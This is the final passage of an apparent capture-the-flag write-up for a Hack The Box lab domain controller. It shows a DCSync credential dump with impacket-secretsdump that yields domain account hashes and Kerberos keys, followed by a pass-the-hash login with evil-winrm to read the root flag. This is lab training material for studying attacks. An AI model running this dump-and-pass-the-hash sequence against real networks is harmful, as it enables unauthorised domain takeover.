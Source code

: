 
So, we use `secretsdump.py` to exploit this and retrieve password hashes.

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ impacket-secretsdump ethan:'limpbizkit'@administrator.htb

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:************04eeaad3b435b51404ee:************20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:337e0590c813cd9913efd6de786badb2:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:cef297120f776ca0d05ab5a7182990d3:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664
Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2
Administrator:des-cbc-md5:403286f7cdf18385
krbtgt:aes256-cts-hmac-sha1-96:920ce354811a517c703a217ddca0175411d4a3c0880c359b2fdc1a494fb13648
krbtgt:aes128-cts-hmac-sha1-96:aadb89e07c87bcaf9c540940fab4af94
krbtgt:des-cbc-md5:2c0bc7d0250dbfc7

```
Now, we have the **hash for the Administrator**.  

We use `evil-winrm` to log in and grab the **root flag**.


```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ evil-winrm -i 10.10.11.42 -u administrator -H '************20bd016e098d2d2fd2e'
                                        
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
cd*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
************70498d749678503d7b90
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 

```
